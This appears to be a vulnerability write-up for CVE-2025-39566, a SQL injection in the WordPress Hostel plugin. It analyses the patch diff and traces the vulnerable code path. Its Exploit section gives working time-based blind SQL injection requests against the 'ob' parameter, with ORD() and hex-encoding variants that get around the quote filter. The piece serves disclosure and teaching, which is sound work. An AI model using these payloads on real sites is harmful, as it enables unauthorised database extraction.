




<!--more-->

A vulnerability in the **Hostel** plugin prior to version **1.1.5.7**. Because input is not sanitized properly, this may allow an attacker to interact directly with the database, including but not limited to data exfiltration.

* **CVE ID**: [CVE-2025-39566](https://www.cve.org/CVERecord?id=CVE-2025-39566)
* **Product**: [WordPress Hostel Plugin](https://wordpress.org/plugins/hostel/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 1.1.5.6
* **CVSS severity**: 7.6 (High)
* **Required Privilege**: Administrator

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Hostel Plugin**: v1.1.5.6 (vulnerable) and v1.1.5.7 (fixed)
* **diff tool**: **meld** or any tool capable of comparing two versions to show differences

## Analysis

The root cause is that the application injects data from a **GET** request directly into an SQL query while the validation/whitelisting is insufficient.

### Patch Diff

Use any diff tool to compare the vulnerable version and the patched version.
A clear difference exists in the file **controllers/bookings.php**

**Vulnerable version**:

```php
if(!empty($_GET['ob'])) {					
    $orderby = "ORDER BY ".sanitize_text_field($_GET['ob']) . ' ' . $dir;
}
```

**Patched version**:

```php
if(!empty($_GET['ob'])) {
    $ob = sanitize_text_field($_GET['ob']);
    if(!in_array($ob, ['tB.id', 'tB.contact_name', 'tB.contact_email', 'tB.from_date', 'tB.amount_paid', 'tB.status'])) {
        $ob = 'tB.id';
    }
    $orderby = "ORDER BY $ob $dir";
}
```

👉 The patch uses a **whitelist** to restrict which columns can be used for ordering; if the supplied value is not valid it falls back to `'tB.id'`.

**Analysis**: The vulnerability appears because the `ob` parameter is passed directly into the `ORDER BY` clause after `sanitize_text_field()`. That function only escapes/cleans text for HTML contexts and does not validate or filter for SQL injection in an SQL context.

### How it works

To inject, we need to identify the complete query used here:

```php
$bookings = $wpdb->get_results("SELECT SQL_CALC_FOUND_ROWS tB.*, tR.title as room FROM ".WPHOSTEL_BOOKINGS." tB JOIN ".WPHOSTEL_ROOMS." tR ON tR.id = tB.room_id WHERE is_static=0 $where_sql $orderby $limit_sql");
```

The query resides in the `default` branch of the `switch` structure.

All this logic belongs to the static `manage()` method of the `WPHostelBookings` class.

```php
class WPHostelBookings {
    static function manage() {
        global $wpdb;
        $_booking = new WPHostelBooking();

        switch(@$_GET['do']) {
            case 'add': // add handle
            break;

            case 'edit': // edit handle
            break;

            // view/print booking details. Will allow also to confirm/cancel
            case 'view': // view handle			
            break;			

            // list bookings
            default:
            // another logic

            if(!empty($_GET['ob'])) {					
                $orderby = "ORDER BY ".sanitize_text_field($_GET['ob']) . ' ' . $dir;
            }

            $bookings = $wpdb->get_results("SELECT SQL_CALC_FOUND_ROWS tB.*, tR.title as room 
            FROM ".WPHOSTEL_BOOKINGS." tB JOIN ".WPHOSTEL_ROOMS." tR ON tR.id = tB.room_id
            WHERE is_static=0 $where_sql $orderby $limit_sql");

            // another logic
            break;
        }
    }
}
```

In WordPress, plugins communicate with core via the **Plugin API (Hook System)**. Therefore, to find where `manage()` is invoked, we can search for the string `"manage"` in the plugin folder.



In the file `models/hostel.php` we have:

```php
class class WPHostel {
    // another logic

    static function menu() {
        // we use 'hostelpro_manage' for consistency with the pro version
        $wphostel_caps = current_user_can('manage_options') ? 'manage_options' : 'hostelpro_manage';     

        add_menu_page(__('Hostel', 'wphostel'), __('Hostel', 'wphostel'), $wphostel_caps, "wphostel_options", 
            array(__CLASS__, "options"));
        add_submenu_page('wphostel_options', __('Settings', 'wphostel'), __('Settings', 'wphostel'), $wphostel_caps, "wphostel_options", 
            array(__CLASS__, "options"));
        add_submenu_page('wphostel_options', __("Manage Rooms", 'wphostel'), __("Manage Rooms", 'wphostel'), $wphostel_caps, 'wphostel_rooms', array('WPHostelRooms', "manage"));
        add_submenu_page('wphostel_options', __("Manage Bookings", 'wphostel'), __("Manage Bookings", 'wphostel'), $wphostel_caps, 'wphostel_bookings', array('WPHostelBookings', "manage")); 
        add_submenu_page('wphostel_options', __("Unavailable Dates", 'wphostel'), __("Unavailable Dates", 'wphostel'), $wphostel_caps, 'wphostel_unavailable', array('WPHostelBookings', "unavailable")); 
        add_submenu_page('wphostel_options', __("Email Log", 'wphostel'), __("Email Log", 'wphostel'), $wphostel_caps, 'wphostel_emaillog', array('WPHostelHelp', "email_log"));
        add_submenu_page('wphostel_options', __("Help", 'wphostel'), __("Help", 'wphostel'), $wphostel_caps, 'wphostel_help', array('WPHostelHelp', "index"));     
    }

    // another logic
}
```

Here:

* `add_menu_page()` creates the **main menu** in the Admin Dashboard.
* `add_submenu_page()` adds **submenu** items under that menu.
* The `$callback` parameter is the **callback function** invoked when a user clicks the menu/submenu.

Example:

```php
// add_menu_page($page_title, $menu_title, $capability, $menu_slug, $callback = '', $icon_url = '', $position = null);
add_menu_page(__('Hostel', 'wphostel'), __('Hostel', 'wphostel'), $wphostel_caps, "wphostel_options", 
    array(__CLASS__, "options"));

// add_submenu_page($parent_slug, $page_title, $menu_title, $capability, $menu_slug, $callback = '');
add_submenu_page('wphostel_options', __("Manage Bookings", 'wphostel'), __("Manage Bookings", 'wphostel'), $wphostel_caps, 'wphostel_bookings', array('WPHostelBookings', "manage"));

// array('WPHostelBookings', "manage")); => WPHostelBookings::manage()
```

All these menu/submenu items are registered inside the static `menu()` method of the `WPHostel` class. To locate where `menu()` is called, search for the `menu` hook in the plugin directory.



In the plugin root file `hostel.php` we have:

```php
add_action('admin_menu', array("WPHostel", "menu"));

// => callback: WPHostel::menu()
```

* `add_action()` is the WordPress Plugin API that attaches a **callback** to an **action hook**.
* The hook name here is `admin_menu`, meaning `WPHostel::menu()` will be called during the lifecycle when WordPress builds the Admin Dashboard Menu.

**Menu in the Admin UI**



**Debugging**

* The faulty functionality is in the **Booking Manager**, so navigate to the `Manage Bookings` submenu in the Admin UI.
* Right before the default branch there is a comment `// list bookings` — indicating this code handles **listing and ordering bookings**.
* Open your debugger:

  * Click <kbd>Run with Debugger</kbd>.
  * Set a **breakpoint** at the `switch` branch that contains the vulnerable code and at the exact line that assigns the vulnerable value.
* When you click a column header in the bookings table, observe:

  * The debugger steps into the `switch`.
  * Use **Step Over** to reach the `default` branch.
  * Continue **Step Over** and inspect variables in `Variables > Locals`. These variables combine to form the SQL query below.

After combining the variables, the full query looks like:

```sql
SELECT SQL_CALC_FOUND_ROWS tB.*, tR.title as room 
FROM wp_hostel_bookings tB 
JOIN wp_hostel_rooms tR ON tR.id = tB.room_id 
WHERE is_static=0 AND tB.id = ... 
ORDER BY tB.amount_paid ASC|DESC 
LIMIT ...
```

Notably, the `$orderby` variable is assigned as:

```php
if(!empty($_GET['ob'])) {					
    $orderby = "ORDER BY ".sanitize_text_field($_GET['ob']) . ' ' . $dir;
}
```

⚠️ Issues here:

* The part after `ORDER BY` uses `sanitize_text_field()`.
* That function only **cleans HTML**, and does not validate or filter input to make it safe in an **SQL context**.
* Therefore the `ob` parameter (provided by the user) can be abused to **inject SQL** directly.

## Exploit

### Detecting SQLi

**Request with BurpSuite**:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&ob=tB.status,(SELECT+SLEEP(10))&dir=ASC HTTP/1.1
```

We separate the `ORDER BY` clause with a comma because it accepts **multi-column** values.



Result: the response time is delayed → SQL Injection succeeded.

### Dumping Data from the Database

**Bypass `'` using ORD()**:

To dump database data we need to extract characters such as the first character of the **database name**.

Because `sanitize_text_field()` removes single quotes (`'`), we cannot use payloads relying on `'`. Instead, use `ORD()` to compare character ASCII codes:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(ORD(SUBSTRING(DATABASE(),1,1))=119,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Bypass succeeds → we can extract the database name.



**Bypass `'` using Hex encoding (alternative)**

Besides `ORD()` we can use **Hex encoding** to bypass:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Bypass succeeds → database name can be extracted.


## Conclusion

The vulnerability **CVE-2025-39566** in the WordPress **Hostel** plugin (versions prior to **1.1.5.7**) stems from inserting user-supplied input directly into an SQL query without adequate safeguards, leading to SQL Injection.

**Key takeaways**:

* `sanitize_text_field()` ≠ protection against **SQL Injection**
* Distinguish clearly between input cleaning for HTML contexts and validation/sanitization for SQL contexts

## References

[SQL Injection Cheat Sheet – PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Hostel Plugin <= 1.1.5.6 is vulnerable to SQL Injection - patchstack](https://patchstack.com/database/wordpress/plugin/hostel/vulnerability/wordpress-hostel-1-1-5-6-sql-injection-vulnerability?_s_id=cve)